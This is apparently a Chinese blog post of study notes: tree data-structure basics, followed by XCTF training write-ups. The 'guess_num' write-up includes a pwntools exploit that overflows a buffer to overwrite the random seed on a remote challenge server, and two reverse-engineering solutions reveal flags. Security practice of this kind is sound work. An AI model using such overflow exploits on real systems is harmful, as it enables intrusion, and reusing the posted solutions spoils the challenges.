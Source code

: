 ```yaml
---
title: 7-30
abbrlink: 2827
hidden: true
date: 2020-07-30 15:00:30
mathjax: true
---
```



## 树和二叉树
非线性结构：至少存在一个数据元素可以有两个或者两个以上的前驱或后继元素。    
树形结构属于非线性结构，是以分支关系定义的一种层次结构。树形结构中的一个元素为一个结点，结点之间的关系为分支，**树中一个结点包含了一个数据元素以及若干指向其子树的分支**     
### 树
当结点n=0时称为空树   

从逻辑上看：
1. 任何非空树中有且只有一个结点没有前驱结点，就是树的根结点
2. 除了根节点外，其余所有结点有且只有一个直接前驱结点
3. 包括根结点在内，每个结点可以有多个直接后继结点
4. 树形结构具有递归特征

树形结构中的数据元素之间的关系桐城市一对多或者多对一     
#### 树的逻辑表示方法
1. 树形表示
2. 文氏图表示
3. 凹入表示
4. 嵌套括号表示

#### 基本术语
1.结点的度    
结点拥有的子树数目   
2.树的度    
树种各结点度的最大值    
3.叶子结点    
度为0的结点称为叶子结点或者终端结点。叶结点没有子孙结点   
4.分支结点（非终端结点）    
度不为0的结点，除了根结点之外的分支结点称为内部结点    
5.结点的层次    
从根结点所在的层开始，根节点为第1层，根节点的孩子结点在第2层   
6.树的深度（高度）   
树中结点的最大层次数   
7.有序树   
8.森林     
m棵（m≥0）树的集合。对于树种每个分支结点来说，其子树的集合就是一个森林
#### 性质
非空树的结点总数等于树中所有结点的度之和加一   
度为k的非空树的第i层最多有\\(k^(i-1)\\)个结点    
深度为h的k叉树最多有\frac{$k^h-1$}{k-1}个结点（ $\sum_1^h k^(i-1) $ )    
具有n个结点的k叉树的最小深度为$\log_k (n(k-1)+1)$

//为啥就弄不出数学公式呢...

## guess_num
wirteup:   
```py
from pwn import *
from ctypes import *
p = remote("220.249.52.133", 45173)
p.recv()
a = "1"*0x20 + p64(1)
p.sendline(a)
p.recv()
c = cdll.LoadLibrary('/lib/x86_64-linux-gnu/libc.so.6')
c.srand(1)
for i in range(10):
	a = str(c.rand()%6+1)
	p.recvuntil('number:')
	print(a)
	p.sendline(a)
p.interactive()
```
这题遇到了几个之前没了解过的地方：   
1. rand、srand()、seed：https://blog.csdn.net/weixin_33962621/article/details/85825271
2. python中调用动态链接库[ctypes --- Python 的外部函数库 — Python 3.7.8 文档](https://docs.python.org/zh-cn/3.7/library/ctypes.html)    
3. sendline()只能传字符和字符串，所以循环里a赋值的时候要转换srt(),不然会报错“'int' object has no attribute 'encode'”
4. linux下运行.py的方法：   
>python 文件名.py
5. linux下编译c的方法（虽然没有用上）：https://blog.csdn.net/weixin_44895651/article/details/89309790  

参考：https://www.b1ndsec.cn/?p=319     
写完之后看了别人的题解，发现可以不用ctypes，也应证了第3条![xctf-writeup](https://adworld.xctf.org.cn/media/uploads/writeup/60f6d96a951f11ea88a9fa163e3c3fd2.png)



## [Hello，CTF](https://adworld.xctf.org.cn/task/answer?type=reverse&number=4&grade=0&id=5075&page=1)
放到ida里看伪代码   
![aKBph6.png](https://s1.ax1x.com/2020/07/30/aKBph6.png)   
其中这处能看出是将输入的内容转换为16进制的数字   
![aKBP1O.png](https://s1.ax1x.com/2020/07/30/aKBP1O.png)   
![aKBC9K.png](https://s1.ax1x.com/2020/07/30/aKBC9K.png)   
再与“437...56e"那串数字进行对比，所以只要把“437...56e"转换回去就行了    
```py
a=bytes.fromhex("437261636b4d654a757374466f7246756e")
print(a)
#python真好用
```


## [python-trade](https://adworld.xctf.org.cn/task/answer?type=reverse&number=4&grade=0&id=5083&page=1)
这个名字真是...   

下载了一个.pyc文件，放到在线反编译的网站上看看    

大概是把输入的内容的每一位经过一个变换，最后再转换为base64编码，跟”XlNkVmtUI1MgXWBZXCFeKY+AaXNt“进行对比    

所以就可以直接开始写了
```py
import base64
correct = 'XlNkVmtUI1MgXWBZXCFeKY+AaXNt'
s=base64.b64decode(correct)
flag=''
for i in s:
    x = i-16	#这边如果写ord(i)会报错
    x=x^32
    flag+=chr(x)
print(flag)
```
i-16那行：[python3遇到的"ord() expected string of length 1, but int found"问题](https://blog.csdn.net/thinszx/article/details/104519533)
其中异或（^）进行逆运算就只需要再异或一次   
异或的逆运算是同或   

